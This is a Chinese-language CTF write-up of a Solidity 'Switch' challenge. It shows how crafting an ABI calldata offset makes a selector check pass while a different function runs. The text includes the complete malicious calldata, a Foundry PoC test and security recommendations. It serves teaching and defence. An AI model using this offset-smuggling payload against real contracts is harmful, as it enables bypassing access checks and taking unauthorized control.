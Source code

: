 3. TurnSwitchOn() — 0x76227e12
我们可以指定 calldata 的起始偏移量，也就是说我们可以通过指定bytes memory _data的偏移量，让真正的_data从96 bytes开始存储，并在对应的位置输入我们真正想调用的函数选择器`TurnSwitchOn()`，实时攻击的CALLDATA完整如下，
```
// 函数选择器 FlipSwitch(_data)的
30c13ade
// bytes memory _data 偏移量 96
0000000000000000000000000000000000000000000000000000000000000060
0000000000000000000000000000000000000000000000000000000000000000
// turnSwitchOff()的函数选择器：xxxxxxxx 满足条件通过检查
20606e1500000000000000000000000000000000000000000000000000000000
// _data长度
0000000000000000000000000000000000000000000000000000000000000004
// turnSwitchOn()的函数选择器
76227e1200000000000000000000000000000000000000000000000000000000  
```
之后通过 call 调用实现攻击。
## Proof of Concept
根据以上分析，完整的 PoC 代码如下：
```solidity
interface ISwitch {
    function flipSwitch(bytes memory _data) external;
    function switchOn() external returns (bool);
}

contract SwitchTest is BaseTest {

    function test_Attack() public {

        bytes memory data = hex'30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000020606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000';

        vm.prank(deployer);
        contractAddress.call(data);
        
        require(ISwitch(contractAddress).switchOn() == true, "Switch is not on");
    }
}
```
## 安全建议
1. Call函数自由度过大，应谨慎使用作为底层函数，对于一些敏感操作或权限判断函数，不应轻易将合约自身的账户地址作为可信的地址。
2. 对传入的参数进行验证，确保传入的参数符合预期，防止恶意攻击者通过构造不合法的参数来执行恶意操作。
3. 使用权限控制机制，如访问控制列表（ACL）或角色based权限控制，来限制对其他合约函数的调用。
